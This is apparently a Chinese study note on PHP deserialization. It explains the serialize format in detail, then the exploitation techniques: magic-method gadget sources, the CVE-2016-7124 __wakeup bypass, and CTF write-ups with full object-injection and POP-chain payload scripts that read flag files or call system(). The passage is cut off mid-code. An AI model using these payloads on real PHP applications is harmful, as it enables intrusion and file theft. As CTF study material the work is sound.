



# PHP 反序列化

知识整合，搬运工

[TOC]

## 0x01 PHP 序列化（serialize）格式详解

PHP 序列化后的内容是简单的文本格式，但是对字母大小写和空白（空格、回车、换行等）敏感，而且字符串是按照字节（或者说是 8 位的字符）计算的，因此，更合适的说法是 PHP 序列化后的内容是字节流格式。**因此用其他语言实现时，如果所实现的语言中的字符串不是字节储存格式，而是 Unicode 储存格式的话，序列化后的内容不适合保存为字符串，而应保存为字节流对象或者字节数组，否则在与 PHP 进行数据交换时会产生错误。**

PHP 对不同类型的数据用不同的字母进行标示，Yahoo 开发网站提供的 [Using Serialized PHP with Yahoo! Web Services](http://developer.yahoo.com/common/phpserial.html) 一文中给出所有的字母标示及其含义：

> - a - array
> - b - boolean
> - d - double
> - i - integer
> - o - common object
> - r - reference
> - s - string
> - C - custom object
> - O - class
> - N - null
> - R - pointer reference
> - U - unicode string

对普通字符串的序列化也分成了 2 种。**一种是 non-escaped 字符串，也就是我们上面说的那个小写 s 标识的字符串；另一种是 escaped 字符串，这种字符串格式用大写 S 标识。**所以上面那个表现在应该改为：

> - a - array
> - b - boolean
> - d - double
> - i - integer
> - o - common object
> - r - reference
> - s - non-escaped binary string
> - S - escaped binary string
> - C - custom object
> - O - class
> - N - null
> - R - pointer reference
> - U - unicode string


### 3．NULL 和标量类型的序列化

NULL 和标量类型的序列化是最简单的，也是构成符合类型序列化的基础。这部分内容相信许多 PHP 开发者都已经熟知。如果您感觉已经掌握了这部分内容，可以直接跳过这一章。

#### 3.1．NULL 的序列化

在 PHP 中，NULL 被序列化为：

N;

#### 3.2．boolean 型数据的序列化

boolean 型数据被序列化为：

b:<digit>;

其中 <digit> 为 0 或 1，当 boolean 型数据为 false 时，<digit> 为 0，否则为 1。

#### 3.3．integer 型数据的序列化

integer 型数据（整数）被序列化为：

i:<number>;

其中 <number> 为一个整型数，范围为：-2147483648 到 2147483647。数字前可以有正负号，如果被序列化的数字超过这个范围，则会被序列化为浮点数类型而不是整型。如果序列化后的数字超过这个范围 （PHP 本身序列化时不会发生这个问题），则反序列化时，将不会返回期望的数值。

#### 3.4．double 型数据的序列化

double 型数据（浮点数）被序列化为：

d:<number>;

其中 <number> 为一个浮点数，其范围与 PHP 中浮点数的范围一样。可以表示成整数形式、浮点数形式和科学技术法形式。如果序列化无穷大数，则 <number> 为 INF，如果序列化负无穷大，则 <number> 为 -INF。序列化后的数字范围超过 PHP 能表示的最大值，则反序列化时返回无穷大（INF），如果序列化后的数字范围超过 PHP 所能表示的最小精度，则反序列化时返回 0。当浮点数为非数时，被序列化为 NAN，NAN 反序列化时返回 0。但其它语言可以将 NAN 反序列化为相应语言所支持的 NaN 表示。

#### 3.5．string 型数据的序列化

string 型数据（字符串）被序列化为：

s:<length>:"<value>";

其中 <length> 是 <value> 的长度，<length> 是非负整数，数字前可以带有正号（+）。<value> 为字符串值，这里的每个字符都是单字节字符，其范围与 ASCII 码的 0 - 255 的字符相对应。每个字符都表示原字符含义，没有转义字符，<value> 两边的引号（""）是必须的，但不计算在 <length> 当中。这里的 <value> 相当于一个字节流，而 <length> 是这个字节流的字节个数。

#### 补充

在 PHP5 最新的 CVS 中（也就是将来要发布的 PHP6），上面对于 string 型数据的序列化方式已经被下面这种所取代，但是 PHP6 仍然支持上面那种序列化方式的反序列化。

新的序列化方式叫做 escaped binary string 方式，这是相对与上面那种 non-escaped binary string 方式来说的：

string 型数据（字符串）新的序列化格式为：

S:<length>:"<value>";

其中 <length> 是源字符串的长度，而非 <value> 的长度。<length> 是非负整数，数字前可以带有正号（+）。<value> 为经过转义之后的字符串。

它的转义编码很简单，对于 ASCII 码小于 128 的字符（但不包括 \），按照单个字节写入（与 s 标识的相同），对于 128~255 的字符和 \ 字符，则将其 ASCII 码值转化为 16 进制编码的字符串，以 \ 作为开头，后面两个字节分别是这个字符的 16 进制编码，顺序按照由高位到低位排列，也就是第 8-5 位所对应的16进制数字字符（abcdef 这几个字母是小写）作为第一个字节，第 4-1 位作为第二个字节。依次编码下来，得到的就是 <value> 的内容了。


### 4．简单复合类型的序列化

PHP 中的复合类型有数组（array）和对象（object）两种，本章主要介绍在简单情况下这两种类型数据的序列化格式。关于嵌套定义的复合类型和自定义序列化方式的对象的序列化格式将在后面的章节详细讨论。

#### 4.1．数组的序列化

数组（array）通常被序列化为：

a:\<n>:{<key 1><value 1><key 2><value 2>...\<key n>\<value n>}

其中 <n> 表示数组元素的个数，<key 1>、<key 2>……<key n> 表示数组下标，<value 1>、<value 2>……<value n> 表示与下标相对应的数组元素的值。

下标的类型只能是整型或者字符串型（包括后面那种 Unicode 字符串型），序列化后的格式跟整型和字符串型数据序列化后的格式相同。

数组元素值可以是任意类型，其序列化后的格式与其所对应的类型序列化后的格式相同。

#### 4.2．对象的序列化

对象（object）通常被序列化为：

O:<length>:"<class name>":<n>:{<field name 1><field value 1><field name 2><field value 2>...<field name n><field value n>}

其中 <length> 表示对象的类名 <class name> 的字符串长度。<n> 表示对象中的字段1个数。这些字段包括在对象所在类及其祖先类中用 var、public、protected 和 private 声明的字段，但是不包括 static 和 const 声明的静态字段。也就是说只有实例（instance）字段。

<filed name 1>、<filed name 2>……<filed name n>表示每个字段的字段名，而 <filed value 1>、<filed value 2>……<filed value n> 则表示与字段名所对应的字段值。

字段名是字符串型，序列化后格式与字符串型数据序列化后的格式相同。

字段值可以是任意类型，其序列化后的格式与其所对应的类型序列化后的格式相同。

但字段名的序列化与它们声明的可见性是有关的，下面重点讨论一下关于字段名的序列化。

#### 4.3．对象字段名的序列化

var 和 public 声明的字段都是公共字段，因此它们的字段名的序列化格式是相同的。公共字段的字段名按照声明时的字段名进行序列化，但序列化后的字段名中不包括声明时的变量前缀符号 $。

protected 声明的字段为保护字段，在所声明的类和该类的子类中可见，但在该类的对象实例中不可见。因此保护字段的字段名在序列化时，字段名前面会加上

\0*\0

的前缀。这里的 \0 表示 ASCII 码为 0 的字符，而不是 \0 组合。

private 声明的字段为私有字段，只在所声明的类中可见，在该类的子类和该类的对象实例中均不可见。因此私有字段的字段名在序列化时，字段名前面会加上

\0<declared class name>\0

的前缀。这里 <declared class name> 表示的是声明该私有字段的类的类名，而不是被序列化的对象的类名。因为声明该私有字段的类不一定是被序列化的对象的类，而有可能是它的祖先类。

字段名被作为字符串序列化时，字符串值中包括根据其可见性所加的前缀。字符串长度也包括所加前缀的长度。其中 \0 字符也是计算长度的。

------

1注： 在 PHP 手册中，字段被称为属性，而实际上，在 PHP 5 中引入的用 __set、__get 来定义的对象成员更适合叫做属性。因为用 __set、__get 来定义的对象成员与其它语言中的属性的行为是一致，而 PHP 手册中所说的属性实际上在其他语言中（例如：C#）中被称为字段，为了避免混淆，这里也称为字段，而不是属性。


### 5．嵌套复合类型的序列化

上一章讨论了简单的复合类型的序列化，大家会发现对于简单的数组和对象其实也很容易。但是如果遇到自己包含自己或者 A 包含 B，B 又包含 A 这类的对象或数组时，PHP 又该如何序列化这种对象和数组呢？本章我们就来讨论这种情况下的序列化形式。

#### 5.1．对象引用和指针引用

在 PHP 中，标量类型数据是值传递的，而复合类型数据（对象和数组）是引用传递的。但是复合类型数据的引用传递和用 & 符号明确指定的引用传递是有区别的，前者的引用传递是对象引用，而后者是指针引用。

在解释对象引用和指针引用之前，先让我们看几个例子。

```php
<?php
echo "<pre>";
class SampleClass {
   var $value;
}
$a = new SampleClass();
$a->value = $a;
 
$b = new SampleClass();
$b->value = &$b;
 
echo serialize($a);
echo "\n";
echo serialize($b);
echo "\n";
echo "</pre>";
?>
```

这个例子的输出结果是这样的：

O:11:"SampleClass":1:{s:5:"value";r:1;}
O:11:"SampleClass":1:{s:5:"value";R:1;}

大家会发现，这里变量 $a 的 value 字段的值被序列化成了 r:1，而 $b 的 value 字段的值被序列化成了 R:1。

但是对象引用和指针引用到底有什么区别呢？

大家可以看下面这个例子：

```php
echo "<pre>";
class SampleClass {
   var $value;
}
$a = new SampleClass();
$a->value = $a;
 
$b = new SampleClass();
$b->value = &$b;
 
$a->value = 1;
$b->value = 1;
 
var_dump($a);
var_dump($b);
echo "</pre>";
```

大家会发现，运行结果也许出乎你的预料：

object(SampleClass)#1 (1) {
 ["value"]=>
 int(1)
}
int(1)

改变 $a->value 的值仅仅是改变了 $a->value 的值，而改变 $b->value 的值却改变了 $b 本身，这就是对象引用和指针引用的区别。


不过很不幸的是，PHP 对数组的序列化犯了一个错误，虽然数组本身在传递时也是对象引用传递，但是在序列化时，PHP 似乎忘记了这一点，看下面的例子：

```php
echo "<pre>";
$a = array();
$a[1] = 1;
$a["value"] = $a;
 
echo $a["value"]["value"][1];
echo "\n";
$a = unserialize(serialize($a));
echo $a["value"]["value"][1];
echo "</pre>";
```

结果是：

1

大家会发现，将原数组序列化再反序列化后，数组结构变了。原本 $a\["value"]\["value"][1] 中的值 1，在反序列化之后丢失了。

原因是什么呢？让我们输出序列化之后的结果来看一看：

\$a = array();
\$a[1] = 1;
\$a["value"] = $a;

echo serialize($a);

结果是：

a:2:{i:1;i:1;s:5:"value";a:2:{i:1;i:1;s:5:"value";N;}}

原来，序列化之后，$a\["value"]\["value"] 变成了 NULL，而不是一个对象引用。

也就是说，PHP 只对对象在序列化时才会生成对象引用标示（r）。对所有的标量类型和数组（也包括 NULL）序列化时都不会生成对象引用。但是如果明确使用了 & 符号作的引用，在序列化时，会被序列化为指针引用标示（R）。

#### 5.2．引用标示后的数字

在上面的例子中大家可能已经看到了，对象引用（r）和指针引用（R）的格式为：

r:<number>;
R:<number>;

大家一定很奇怪后面这个 <number> 是什么吧？本节我们就来详细讨论这个问题。

这个 <number> 简单的说，就是所引用的对象在序列化串中第一次出现的位置，但是这个位置不是指字符的位置，而是指对象（这里的对象是泛指所有类型的量，而不仅限于对象类型）的位置。

我想大家可能还不是很明白，那么我来举例说明一下：

```php
class ClassA {
   var $int;
   var $str;
   var $bool;
   var $obj;
   var $pr;
}

$a = new ClassA();
$a->int = 1;
$a->str = "Hello";
$a->bool = false;
$a->obj = $a;
$a->pr = &$a->str;

echo serialize($a);

这个例子的结果是：

O:6:"ClassA":5:{s:3:"int";i:1;s:3:"str";s:5:"Hello";s:4:"bool";b:0;s:3:"obj";r:1;s:2:"pr";R:3;}
```

在这个例子中，首先序列化的对象是 ClassA 的一个对象，那么给它编号为 1，接下来要序列化的是这个对象的几个成员，第一个被序列化的成员是 int 字段，那它的编号就为 2，接下来被序列化的成员是 str，那它的编号就是 3，依此类推，到了 obj 成员时，它发现该成员已经被序列化了，并且编号为 1，因此它被序列化时，就被序列化成了 r:1; ，在接下来被序列化的是 pr 成员，它发现该成员实际上是指向 str 成员的一个引用，而 str 成员的编号为 3，因此，pr 就被序列化为 R:3; 了。


PHP 是如何来编号被序列化的对象的呢？实际上，PHP 在序列化时，首先建立一个空表，然后每个被序列化的对象在被序列化之前，都需要先计算该对象的 Hash 值，然后判断该 Hash 值是否已经出现在该表中了，如果没有出现，就把该 Hash 值添加到这个表的最后，返回添加成功。如果出现了，则返回添加失败，但是在返回失败前先判断该对象是否是一个引用（用 & 符号定义的引用），如果不是则也把 Hash 值添加到表后（尽管返回的是添加失败）。如果返回失败，则同时返回上一次出现的位置。

在添加 Hash 值到表中之后，如果添加失败，则判断添加的是一个引用还是一个对象，如果是引用，则返回 R 标示，如果是对象，则返回 r 标示。因为失败时，会同时返回上一次出现的位置，因此，R 和 r 标示后面的数字，就是这个位置。

#### 5.3．对象引用的反序列化

PHP 在反序列化处理对象引用时很有意思，如果反序列化的字符串不是 PHP 的 serialize() 本身生成的，而是人为构造或者用其它语言生成的，即使对象引用指向的不是一个对象，它也能正确地按照对象引用所指向的数据进行反序列化。例如：

```php
echo "<pre>";
class StrClass {
   var $a;
   var $b;
}
 
$a = unserialize('O:8:"StrClass":2:{s:1:"a";s:5:"Hello";s:1:"b";r:2;}');
 
var_dump($a);
echo "</pre>";

运行结果：

object(StrClass)#1 (2) {
 ["a"]=>
 string(5) "Hello"
 ["b"]=>
 string(5) "Hello"
}

大家会
```

发现，上面的例子反序列化后，$a->b 的值与 $a->a 的值是一样的，尽管 $a->a 不是一个对象，而是一个字符串。因此如果大家用其它语言来实现序列化的话，不一定非要把 string 作为标量类型来处理，即使按照对象引用来序列化拥有相同字符串内容的复合类型，用 PHP 同样可以正确的反序列化。这样可以更节省序列化后的内容所占用的空间。


### 6．自定义对象序列化

#### 6.1．PHP 4 中自定义对象序列化

PHP 4 中提供了 __sleep 和 __wakeup 这两个方法来自定义对象的序列化。不过这两个函数并不改变对象序列化的格式，影响的仅仅是被序列化字段的个数。关于它们的介绍，在 PHP 手册中写的还算比较详细。这里就不再多做介绍了。

#### 6.2．PHP 5 中自定义对象序列化

PHP 5 中增加了接口（interface）功能。PHP 5 本身提供了一个 Serializable 接口，如果用户在自己定义的类中实现了这个接口，那么在该类的对象序列化时，就会被按照用户实现的方式去进行序列化，并且序列化后的标示不再是 O，而改为 C。C 标示的格式如下：

C:<name length>:"<class name>":<data length>:{<data>}


其中 <name length> 表示类名 <class name> 的长度，<data length> 表示自定义序列化数据 <data> 的长度，而自定义的序列化数据 <data> 是完全的用户自己定义的格式，与 PHP 序列化格式可以完全无关，这部分数据由用户自己实现的序列化和反序列化接口方法来管理。

Serializable 接口中定义了 2 个方法，serialize() 和 unserialize(\$data)，这两个方法不会被直接调用，而是在调用 PHP 序列化函数时，被自动调用。其中 serialize 函数没有参数，它的返回值就是 <data> 的内容。而 unserialize(\$data) 有一个参数 \$data，这个参数的值就是 <data> 的内容。这样大家应该就明白了，实际上接口中 serialize 方法就是让用户来自己序列化对象中的内容，序列化后的内容格式，PHP 并不关心，PHP 只负责把它充填到 <data> 中，等到反序列化时，PHP 只负责取出这部分内容，然后传给用户实现的 unserialize($data) 接口方法，让用户自己去反序列化这部分内容。

下面举个简单的例子，来说明 Serializable 接口的使用：

```php
class MyClass implements Serializable
{
   public $member;
 
   function MyClass()
   {
     $this->member = 'member value';
   }
 
   public function serialize()
   {
     return wddx_serialize_value($this->member);
   }
 
   public function unserialize($data)
   {
     $this->member = wddx_deserialize($data);
   }
}
$a = new MyClass();
echo serialize($a);
echo "\n";
print_r(unserialize(serialize($a)));
```

输出结果为（浏览器中的源代码）：

C:7:"MyClass":90:{<wddxPacket version='1.0'><header/><data><string>member value</string></data></wddxPacket>}
MyClass Object
(
   [member] => member value
)

因此如果想用其它语言来实现 PHP 序列化中的 C 标示的话，也需要提供一种这样的机制，让用户自定义类时,能够自己在反序列化时处理 <data> 内容，否则，这些内容就无法被反序列化了。


### 7．Unicode 字符串的序列化

好了，最后再谈谈 PHP 6 中关于 Unicode 字符串序列化的问题吧。

说实话，我不怎么喜欢把字符串搞成双字节 Unicode 这种编码的东西。JavaScript 中也是用这样的字符串，因此在处理字节流的东西时，反而非常的不方便。C# 虽然也是用这种方式来编码字符串，不过还好的是，它提供了全面的编码转换机制，而且提供这种字符串到字节流（实际上是到字节数组）的转换，所以处理起来还 算是可以。但是对于不熟悉这个的人来说，转来转去就是个麻烦。

PHP 6 之前一直是按字节来编码字符串的，到了 PHP 6 突然冒出个 Unicode 编码的字符串来，虽然是可选的，但仍然让人觉得非常不舒服，如果配置不当，老的程序兼容性都成问题。


当然加了这个东西以后，许多老的与字符串有关的函数都进行了修改。序列化函数也不例外。因此，PHP 6 中增加了专门的 Unicode 字符串序列化标示 U。PHP 6 中对 Unicode 字符串的序列化格式如下：

U:<length>:"<unicode string>";

这里 <length> 是指原 Unicode String 的长度，而不是 <unicode string> 的长度，因为 <unicode string> 是经过编码以后的字节流了。

但是还有一点要注意，<length> 尽管是原 Unicode String 的长度，但是也不是只它的字节数，当然也不完全是指它的字符数，确切的说是之它的字符单位数。因为 Unicode String 中采用的是 UTF16 编码，这种编码方式使用 16 位来表示一个字符的，但是并不是所有的都是可以用 16 位表示的，因此有些字符需要两个 16 位来表示一个字符。因此，在 UTF16 编码中，16 位字符算作一个字符单位，一个实际的字符可能就是一个字符单位，也有可能由两个字符单位组成。因此， Unicode String 中字符数并不总是等于字符单位数，而这里的 <length> 指的就是字符单位数，而不是字符数。

那 <unicode string> 又是怎样被编码的呢？实际上，它的编码也很简单，对于编码小于 128 的字符（但不包括 \），按照单个字节写入，对于大于 128 的字符和 \ 字符，则转化为 16 进制编码的字符串，以 \ 作为开头，后面四个字节分别是这个字符单位的 16 进制编码，顺序按照由高位到低位排列，也就是第 16-13 位所对应的16进制数字字符（abcdef 这几个字母是小写）作为第一个字节，第 12-9 位作为第二个字节，第 8-5 位作为第三个字节，最后的第 4-1 位作为第四个字节。依次编码下来，得到的就是 <uncode string> 的内容了。

我认为对于其他语言来说，没有必要实现这种序列化方式，因为用这种方式序列化的内容，对于目前的主流 PHP 服务器来说都是不支持的，不过倒是可以实现它的反序列化，这样将来即使跟 PHP 6 进行数据交换，也可以互相读懂了。


## 0x02 php反序列化魔术方法

### 方法列表

```php
起点：
__destruct() //对象被销毁时触发
__wakeup() //unserialize() 会检查是否存在一个 __wakeup() 方法。如果存在，则会先调用 __wakeup 方法，预先准备对象需要的资源。
__toString() //__toString() 方法用于一个类被当成字符串时应怎样回应
   

中间跳板：
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问的属性读取数据
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__invoke() //当脚本尝试将对象调用为函数时触发
__toString() //

终点：
__call: 调用不可访问或不存在的方法时被调用
call_user_func、call_user_func_array等代码执行点
    
其他：
__construct()//创建对象时触发0
__sleep() //对象被序列化之前触发
```


### __toString 方法触发条件

这个 __toString 触发的条件比较多，也因为这个原因容易被忽略，常见的触发条件有下面几种

> (1)echo (`$obj`) / print(`$obj`) 打印时会触发
>
> (2)反序列化对象与字符串连接时
>
> (3)反序列化对象参与格式化字符串时
>
> (4)反序列化对象与字符串进行\==比较时（PHP进行==比较的时候会转换参数类型）
>
> (5)反序列化对象参与格式化SQL语句，绑定参数时
>
> (6)反序列化对象在经过php字符串函数，如 strlen()、addslashes()时
>
> (7)在in_array()方法中，第一个参数是反序列化对象，第二个参数的数组中有**toString返回的字符串的时候**toString会被调用
>
> (8)反序列化的对象作为 class_exists() 的参数的时候
>
> (9)作为file_exists()函数时也会触发


### __wakeup绕过

**CVE-2016-7124**

在PHP 5.6.25 之前版本和 7.0.10 之前的版本，当对象的属性(变量)数大于实际的个数时， `__wakeup()` 不会被执行。


## 0x03 php反序列化对象注入

### basic：安恒月赛web

```php
<?php
show_source("index.php");
function write($data) {
    return str_replace(chr(0) . '*' . chr(0), '\0\0\0', $data);
}

function read($data) {
    return str_replace('\0\0\0', chr(0) . '*' . chr(0), $data);
}

class A{
    public $username;
    public $password;
    function __construct($a, $b){
        $this->username = $a;
        $this->password = $b;
    }
}

class B{
    public $b = 'gqy';
    function __destruct(){
        $c = 'a'.$this->b;
        echo $c;
    }
}

class C{
    public $c;
    function __toString(){
        //flag.php
        echo file_get_contents($this->c);
        return 'nice';
    }
}

$a = new A($_GET['a'],$_GET['b']);
//省略了存储序列化数据的过程,下面是取出来并反序列化的操作
$b = unserialize(read(write(serialize($a))));
```


原理是通过对username长度的减小，导致username反序列化时将password部分视为自己的部分，则我们可以构造自己的序列化语句，注入自己想要的对象。


**payload**

```php
<?php
function write($data) {
    return str_replace(chr(0) . '*' . chr(0), '\0\0\0', $data);
}

function read($data) {
    return str_replace('\0\0\0', chr(0) . '*' . chr(0), $data);
}

class A{
    public $username;
    public $password;
    function __construct($a, $b){
        $this->username = $a;
        $this->password = $b;
    }
}

class B{
    public $b = 'gqy';
}

class C{
    public $c;
    function __construct()
    {
        $this->c = "./flag";
    }
}

function CURL($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, FALSE);
    curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, FALSE);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    $output = curl_exec($ch);
    curl_close($ch);
    return $output;
}

function padding($poc){
    $target = '";s:8:"password";s:72:"1';
    $username = "drom".str_repeat('\0\0\0',strlen($target)/3);
    $password = '1'.'";s:4:"drom";'.$poc.'}';  //注入一个名称为drom对象，内容为pop链
//    echo $username,"\n";
//    echo $password,"\n";
    $args = '?a='.urlencode($username).'&b='.urlencode($password);
    return $args;
}
$b = new B();
$b->b = new C();

echo CURL('http://127.0.0.1/ax/index.php'.padding(serialize($b)));


```


### 加了绕过：强网杯web辅助

**class.php**

```php
<?php
class player{
    protected $user;
    protected $pass;
    protected $admin;

    public function __construct($user, $pass, $admin = 0){
        $this->user = $user;
        $this->pass = $pass;
        $this->admin = $admin;
    }

    public function get_admin(){
        return $this->admin;
    }
}

class topsolo{
    protected $name;

    public function __construct($name = 'Riven'){
        $this->name = $name;
    }

    public function TP(){
        if (gettype($this->name) === "function" or gettype($this->name) === "object"){
            $name = $this->name;
            $name();
        }
    }

    public function __destruct(){
        $this->TP();
    }

}

class midsolo{
    protected $name;

    public function __construct($name){
        $this->name = $name;
    }

    public function __wakeup(){
        if ($this->name !== 'Yasuo'){
            $this->name = 'Yasuo';
            echo "No Yasuo! No Soul!\n";
        }
    }
    

    public function __invoke(){
        $this->Gank();
    }

    public function Gank(){
        if (stristr($this->name, 'Yasuo')){
            echo "Are you orphan?\n";
        }
        else{
            echo "Must Be Yasuo!\n";
        }
    }
}

class jungle{
    protected $name = "";

    public function __construct($name = "Lee Sin"){
        $this->name = $name;
    }

    public function KS(){
        system("cat /flag");
    }

    public function __toString(){
        $this->KS();  
        return "";  
    }

}
?>

```


**common.php**

```php
<?php
function read($data){
    $data = str_replace('\0*\0', chr(0)."*".chr(0), $data);
    return $data;
}
function write($data){
    $data = str_replace(chr(0)."*".chr(0), '\0*\0', $data);
    return $data;
}

function check($data)
{
    if(stristr($data, 'name')!==False){
        die("Name Pass\n");
    }
    else{
        return $data;
    }
}
?>
```


- pop链中的变量都变成了protected，反序列化时需格外注意。
- read函数有变化，字符是从5个减小到3个。
- 绕过对于name的过滤，可以使用十六进制，然后使用S进行转义处理。否则无法正确处理十六进制
- 绕过__wakeup。


**利用脚本**

```php
<?php

class player{
    protected $user;
    protected $pass;
    protected $admin;

    public function __construct($user, $pass, $admin = 0){
        $this->user = $user;
        $this->pass = $pass;
        $this->admin = $admin;
    }

}

class topsolo{
    protected $name;

    public function __construct($name = 'Riven'){
        $this->name = $name;
    }

}

class midsolo{
    protected $name;

    public function __construct($name){
        $this->name = $name;
    }
}

class jungle
{
    protected $name = "";

    public function __construct($name = "Lee Sin")
    {
        $this->name = $name;
    }
}


function console($line){
    $arr = explode(':',$line);
    for ($i = 0;$i<sizeof($arr);$i++){
        if(preg_match('/name/',$arr[$i])){
            $arr[$i] = str_replace("name",'\6e\61\6d\65',$arr[$i]);
            $arr[$i-2] = str_replace('s','S',$arr[$i-2]);
        }
    }
    $result = implode($arr,':');
    $result = str_replace('"midsolo":1:','"midsolo":2:',$result);
    return $result;
}

function pad($poc){
    $pad = '";s:7:" * pass";s:111:"0';
    $username = 'drom'.str_repeat('\0*\0',(strlen($pad))/2);
    $password = '0'.'";s:4:"drom";'.$poc.'s:8:"\0*\0admin";i:0;}';
    $args = '?username='.urlencode($username).'&password='.urlencode($password);
    return $args;
}

function CURL($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, FALSE);
    curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, FALSE);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    $output = curl_exec($ch);
    curl_close($ch);
    return $output;
}

$tmp  = console(serialize(new topsolo(new midsolo(new jungle()))));
$url = 'http://127.0.0.1/qw/webfuzhu/html/';
CURL($url.pad($tmp));
echo CURL($url.'play.php');
```


### 由短变长：0ctf2016piapiapia 

- 由短变长：将payload连接到前面的字段，使其覆盖到后面的字段。
- 由长变短：将payload连接到后面的字段，使其往前覆盖


## 0x04 php反序列化POP链

### 方法列表

```php
起点：
__destruct() //对象被销毁时触发
__wakeup() //unserialize() 会检查是否存在一个 __wakeup() 方法。如果存在，则会先调用 __wakeup 方法，预先准备对象需要的资源。
__toString() //__toString() 方法用于一个类被当成字符串时应怎样回应
   

中间跳板：
__call() //在对象上下文中调用不可访问的方法时触发
__callStatic() //在静态上下文中调用不可访问的方法时触发
__get() //用于从不可访问的属性读取数据
__set() //用于将数据写入不可访问的属性
__isset() //在不可访问的属性上调用isset()或empty()触发
__unset() //在不可访问的属性上使用unset()时触发
__invoke() //当脚本尝试将对象调用为函数时触发
__toString() //

终点：
__call: 调用不可访问或不存在的方法时被调用
call_user_func、call_user_func_array等代码执行点
    
其他：
__construct()//创建对象时触发0
__sleep() //对象被序列化之前触发
```


### CISCN：babyunserialize

- [CISCN2020初赛 writeup web部分](https://blog.csdn.net/qq_42697109/article/details/108212765)


**payload**

```php
<?php
namespace CLI{
    class Agent
    {
        protected $server;
        public function __construct($server)
        {
            $this->server=$server;
        }
    }

    class WS
    {
    }
}
namespace DB{
    abstract class Cursor  implements \IteratorAggregate {}
    class Mongo {
        public $events;
        public function __construct($events)
        {
            $this->events=$events;
        }
    }
}

namespace DB\Jig{
    class Mapper extends \DB\Cursor {
        protected $legacy=0;
        protected $db;
        protected $file;
        public function __construct($db,$file){
            $this->db=$db;
            $this->file=$file;
        }
    }
}
namespace DB\SQL{
    class Mapper extends \DB\Cursor{
        protected $props=["read"=>"phpinfo"];
    }
}

namespace{
    $SQLMapper=new DB\SQL\Mapper();
//    echo serialize($SQLMapper),"\n";
    $JigMapper=new DB\Jig\Mapper($SQLMapper,INFO_ALL );
//    $MongoMapper  = new CLI\WS();
    $DBMongo=new DB\Mongo(array('disconnect'=>array($JigMapper,"update")));
    $Agent=new CLI\Agent($DBMongo);
    $WS=new CLI\WS();
    echo urlencode(serialize(array($WS,$Agent)));
}
```


[](https://www.cnblogs.com/iamstudy/)

### [l3m0n](https://www.cnblogs.com/iamstudy/) pop链学习

```php
<?php
class OutputFilter {
  protected $matchPattern;
  protected $replacement;
  function __construct($pattern, $repl) {
    $this->matchPattern = $pattern;
    $this->replacement = $repl;
  }
  function filter($data) {
    return preg_replace($this->matchPattern, $this->replacement, $data);
  }
};
class LogFileFormat {
  protected $filters;
  protected $endl;
  function __construct($filters, $endl) {
    $this->filters = $filters;
    $this->endl = $endl;
  }
  function format($txt) {
    foreach ($this->filters as $filter) {
      $txt = $filter->filter($txt);
    }
    $txt = str_replace('\n', $this->endl, $txt);
    return $txt;
  }
};
class LogWriter_File {
  protected $filename;
  protected $format;
  function __construct($filename, $format) {
    $this->filename = str_replace("..", "__", str_replace("/", "_", $filename));
    $this->format = $format;
  }
  function writeLog($txt) {
    $txt = $this->format->format($txt);
    //TODO: Modify the address here, and delete this TODO.
    file_put_contents("E:\\WWW\\test\\ctf" . $this->filename, $txt, FILE_APPEND);
  }
};
class Logger {
  protected $logwriter;//这里装入LogWriter_File对象
  function __construct($writer) {
    $this->logwriter = $writer;
  }
  function log($txt) {//这里偷梁换柱Song的log
    $this->logwriter->writeLog($txt);
  }
};
class Song {
  protected $logger;
  protected $name;
  protected $group;
  protected $url;
  function __construct($name, $group, $url) {
    $this->name = $name;
    $this->group = $group;
    $this->url = $url;
    $fltr = new OutputFilter("/\[i\](.*)\[\/i\]/i", "<i>\\1</i>");
    $this->logger = new Logger(new LogWriter_File("song_views", new LogFileFormat(array($fltr), "\n")));
  }
  function __toString() {
    return "<a href='" . $this->url . "'><i>" . $this->name . "</i></a> by " . $this->group;
  }
  function log() {
    $this->logger->log("Song " . $this->name . " by [i]" . $this->group . "[/i] viewed.\n");
  }
  function get_name() {
      return $this->name;
  }
}
class Lyrics {
  protected $lyrics;
  protected $song;
  function __construct($lyrics, $song) {
    $this->song = $song;
    $this->lyrics = $lyrics;
  }
  function __toString() {
    return "<p>" . $this->song->__toString() . "</p><p>" . str_replace("\n", "<br />", $this->lyrics) . "</p>\n";
  }
  function __destruct() {
    $this->song->log();
  }
  function shortForm() {
    return "<p><a href='song.php?name=" . urlencode($this->song->get_name()) . "'>" . $this->song->get_name() . "</a></p>";
  }
  function name_is($name) {
